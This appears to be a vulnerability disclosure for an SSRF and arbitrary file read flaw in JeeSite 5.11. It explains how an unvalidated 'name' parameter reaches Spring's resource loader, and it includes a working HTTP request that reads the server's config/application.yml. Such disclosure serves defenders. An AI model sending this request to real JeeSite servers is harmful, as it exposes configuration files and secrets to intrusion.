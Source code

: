 # JeeSite 5 SSRF & Arbitrary File Read Vulnerability

**Version: JeeSite v5.11**

**Google Dork: N/A**

**Date: 05/21/2025**

**Tested on: Windows 11, Java 17, MySQL 8.0**

**Software Link: https://gitee.com/thinkgem/jeesite5**

**Description:** A Server-Side Request Forgery (SSRF) and Arbitrary File Read vulnerability exists in JeeSite version 5.11.1 (Spring Boot 3) due to improper input validation of the name parameter in the /cms/fileTemplate/form endpoint. This parameter is propagated through multiple layers and ultimately passed into the Spring ResourceLoader.getResource() method, which accepts multiple URI schemes such as file:, http:, classpath:, etc. An attacker can exploit this chain to read local files or make arbitrary requests from the server.

**code analysis**

The vulnerable parameter name is passed from the controller layer without proper validation and directly used in the method fileTempleteService.getFileTemplete(name). This value propagates through multiple layers and reaches ResourceUtils.getResource(location), which allows loading arbitrary resources based on attacker-controlled input. If external protocols such as http:// or ftp:// are allowed, this may lead to Server-Side Request Forgery (SSRF) or arbitrary file access.
![image](https://github.com/user-attachments/assets/19e0d29c-1c97-4d2f-b106-f2a1d20e4379)
![image](https://github.com/user-attachments/assets/97f54cac-5e16-4a96-9b63-77c90e8a2cf2)
![image](https://github.com/user-attachments/assets/84f8c3c7-5dc2-4dad-a126-e3ddfc594cd8)
![image](https://github.com/user-attachments/assets/a2e94478-fd37-476f-84a2-9eb8aae7af12)

**Payload used:**

```
GET /js/a/cms/template/form?name=config/application.yml HTTP/1.1
Host: 127.0.0.1:8980
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://127.0.0.1:8980/js/a/cms/template/list
Cookie: JSESSIONID=8F2ED5B5FD025A957A9AA816DC77F8F9; jeesite.session.id=2f33cb12f37f4f6a8c780d8ceecc3060; Hm_lvt_65b88e88a94e0118de2962f328f17622=1747735452; Hm_lpvt_65b88e88a94e0118de2962f328f17622=1747755826; HMACCOUNT=20448B96275CF94A;
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4
```

Example：
![image](https://github.com/user-attachments/assets/97540dfb-7c41-4908-9565-0058267b6a86)
![image](https://github.com/user-attachments/assets/c6652df2-7fd3-457e-ad0d-620afe620ee4)
![image](https://github.com/user-attachments/assets/37fc04fd-88f0-4e53-b081-6e8d0bc9e1ab)



